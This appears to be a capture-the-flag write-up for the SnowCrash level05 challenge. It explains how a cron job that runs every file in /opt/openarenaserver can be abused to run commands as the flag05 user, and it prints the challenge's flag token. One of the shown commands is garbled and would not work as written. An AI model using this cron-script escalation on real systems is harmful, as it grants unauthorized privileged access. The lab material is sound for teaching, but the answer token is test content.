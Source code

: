 # LEVEL 05

when we log into the level05 a message appears to informe us that there is a message

# in linux server

there is a folder /var/spool/mail where services and daemons that are configured by default to send notifications to root account mailbox

## Vulnerability & exploit

we know that Cron Jobs are used for scheduling tasks by executing commands at specific dates and times on the server,
and most of the time commonly used for sysadmin jobs as backups or cleaning /tmp.

When a script executed by Cron is editable by unprivileged users, those unprivileged users can escalate their privilege by editing this script, and waiting for it to be executed by Cron under root privileges or specific user "flag05" for ex using: -c flag .


## Solving the challenge

cron job seems to inform us that it  set up a task to run every 2 min
during the following script is run as root:

```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
when we see the script we can understand that using a script the user will loop through all the files in /opt/openarenaserver and run them in a bash shell 

so it appears that we can create a file in this directory and run it as a flag05  using the crontab and since the script in that directory does not return or print the output of the command because it's executed by a diferent user  we will redirect the output to another file in /tmp/something because all the useres on the server can write or execute script in the tmp file 

		level05@SnowCrash:/opt/openarenaserver$ touch raja.sh
		level05@SnowCrash:/opt/openarenaserver$ chmod 777 raja.sh 
		level05@SnowCrash:/opt/openarenaserver$ vim raja.sh >> getflag >> /tmp/raja
		level05@SnowCrash:/opt/openarenaserver$ cat /tmp/raja
		Check flag.Here is your token : viuaaale9huek52boumoomioc
		
